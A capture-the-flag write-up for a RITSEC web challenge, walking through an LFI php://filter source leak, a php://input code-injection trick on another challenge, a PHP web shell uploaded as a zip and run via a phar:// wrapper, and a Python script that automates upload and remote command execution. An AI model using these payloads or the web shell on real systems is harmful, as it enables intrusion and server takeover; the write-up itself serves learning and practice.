My team solved all the other web challenges. This was the only one left.

We did not solve this challenge during the CTF because I'm stupid and forgot how regex work :))))))).

Anyways I think it will make for a good writeup anyways. Enjoy.



## Recon



We can upload any file we want. Lets try upload shell.php



The extension gets removed and replaced with .dat.



We can dowload the file here if we enter `1542616333.dat`

Okay let's try some more extensions and figure out which ones are useful.



Left side is upload filename, right side is filename returned by server.

Moving on. Not much else to do here as the file is just returned to us and not displayed.

## Dirb
Running dirb we get some new paths.



Cool, we have found the upload directory. Let's see if we can browse our file.

```
/uploads/1542616333.dat (404)
```

Okay maybe that's not the correct folder.

## Exploiting LFI Wrappers
Using this payload we can view the source code of the download.php file as the input is not sanitized correctly.
```
http://fun.ritsec.club:8004/index.php?page=php://filter/convert.base64-encode/resource=download
```

Decoding the base64 we get:

This is the code for the upload page:



So the upload folder is
```
uploads/md5(REMOTE_ADDR)/md5(time()).ext
```
## The hunt for the REMOTE_ADDR IP
In PHP `$_SERVER['REMOTE_ADDR']` returns the IP address in the format X.X.X.X of the user visiting the website.

What's different with this challenge is that the server is running inside docker (most likely) and behind a reverse proxy.


If we visit a page that does not exist. We see that the web server is running apache.



But if we view the header of the request it says nginx.

me ---> nginx (port 8003) ---- > apache (port 80)

Let's try some obvious ones as IP:
```
127.0.0.1
my remote ip
0.0.0.0
54.166.0.85 (ip of ritsec website)
```

None of these worked.... Bruteforce is not a option as we don't know in which range the ip is located.
### Wild idea: Spoofing The X-Forwarded-For (XFF) HTTP header field
I tried to add a header field with a custom IP to see if we can spoof remote address. This did not work and I never expected it to work.

```
X-Forwarded-For: 127.0.0.1
```

### Thinking outside the box: Exploiting another challenge
Remember how we had command injection in Lazy Dev. We know the setup of the CTF should be very similar.

```
curl -d "<?=phpinfo();?>" -X POST http://fun.ritsec.club:8007/devsrule.php?magic=php://input
```


Remote address of lazy dev is `10.0.10.254`.

Maybe it's the same for Archivr.



Yaayy! We've found something. Instead of a 404 we get a forbidden (403).

## Create a payload
payload.php
```php
<?php

echo "win";

echo system($_GET["cmd"]);
```
payload.zip
```bash
$ zip payload.zip payload.php
```

Okay we got our payload that we should upload.

Now lets construct the URL.
We know from the recon phase we can't upload a .php file as it will be replaced with .dat.

To run PHP code we can upload a zip and use zip/phar wrappers to extract the zip and run the php file.

Now putting everything together we get:

`
http://fun.ritsec.club:8004/index.php?page=phar://uploads/md5(10.0.10.254)/md5(time()).zip/payload&cmd=ls -lha
`

And the final payload

`
http://fun.ritsec.club:8004/index.php?page=phar://uploads/98d3cbed97b0bc491c000455c9f8e6fb/48be30ab27aa9abc81fe735005f0e601.zip/payload&cmd=ls%20-lha`



Now finding the flag should be quite easy. Just modify the cmd command!


Here's my python script I used:
```python
import sys
tries = []
import requests
import re

ips = ["10.0.10.254"]

def create_win(ip, filename):
	import hashlib
	m = hashlib.md5()

	m.update(str(ip))
	md5ip = m.hexdigest()

	m = hashlib.md5()
	m.update(filename)
	keymd5 = m.hexdigest()


	URL = 'http://54.211.94.128:8004/uploads/%s/%s.zip' % (md5ip, keymd5)
	print "Testing IP %s on URL %s" % (ip, URL)

	r = requests.get(URL)
	if r.status_code != 404:
		print "VICTORY!!!"
		print "Doing exploit"
		payload = "http://fun.ritsec.club:8004/index.php?page=phar://uploads/%s/%s.zip/payload&cmd=ls -lha" % (md5ip, keymd5)
		print payload		
		exit()

def upload_file():
	url = 'http://fun.ritsec.club:8004/index.php?page=upload'
	files = {'upload': open('payload.zip', 'rb')}
	r = requests.post(url, files=files)
	resp = r.text
	matches = re.search(r'>(.*).zip', resp).group()[1:] #For those curios. This is the code that was wrong and lost us 300 points and a ~5th place.
	return matches.split(".")[0] #Quick and dirty fix with split just to make it work :D


create_win("10.0.10.254", upload_file())
```

Hope you learnt something. I sure did :)
